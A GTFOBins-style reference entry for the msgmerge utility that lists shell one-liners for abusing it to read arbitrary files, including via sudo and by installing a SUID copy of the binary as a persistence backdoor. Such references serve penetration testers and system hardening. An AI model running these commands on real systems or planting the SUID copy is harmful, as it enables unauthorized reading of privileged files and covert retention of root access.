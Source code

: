 # GTFOBin: msgmerge

The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
msgmerge -P $LFILE /dev/null
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which msgmerge) .

LFILE=file_to_read
./msgmerge -P $LFILE /dev/null
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo msgmerge -P $LFILE /dev/null
```